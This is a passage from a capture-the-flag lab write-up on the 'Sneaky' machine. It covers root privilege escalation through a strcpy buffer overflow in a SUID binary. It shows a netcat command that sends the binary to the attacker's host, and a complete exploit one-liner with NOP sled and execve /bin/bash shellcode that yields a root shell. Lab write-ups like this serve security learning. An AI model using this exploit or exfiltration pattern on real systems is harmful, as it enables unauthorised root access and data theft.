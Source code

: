 # 20 - PrivEsc

# SUID binary
![](vx_images/3777519861548.png)


# Segfault

```bash
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal
Segmentation fault (core dumped)
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal  test
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal $(python -c 'print "A" *600')
Segmentation fault (core dumped)
```


# File transfer
```bash
thrasivoulos@Sneaky:/dev/shm$ cat /usr/local/bin/chal | nc 10.10.14.18 9001
┌─[user@parrot]─[10.10.14.18]─[~/htb/sneaky/suid]
└──╼ $ nc -lvp 9001 > chal
listening on [any] 9001 ...
10.10.10.20: inverse host lookup failed: Unknown host
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.20] 37278
┌─[user@parrot]─[10.10.14.18]─[~/htb/sneaky/suid]
└──╼ $ file chal 
chal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fc8ad06fcfafe1fbc2dbaa1a65222d685b047b11, not stripped
```

# CheckSec
![](vx_images/4954421483088.png)


# Strcpy buffer overflow
![](vx_images/5012138608924.png)

It's a straight forward buffer overflow vulnerability. strcpy doesn't care if the buffer is big enough


# Exploit
```bash
thrasivoulos@Sneaky:/dev/shm$ ./chal $(python2 -c 'print "A"*362 + "\x0c\xf4\xff\xbf" +"\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
bash-4.3# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
bash-4.3# 
```



* 362 bytes to fill up the buffer
* 0xbffff40c is for jumping to the NOP slide
* 150 byte long 0x90 slide # we don't know the address our shell code starts
* shellcode for execve(''/bin/bash'')  http://shell-storm.org/shellcode/files/shellcode-606.php
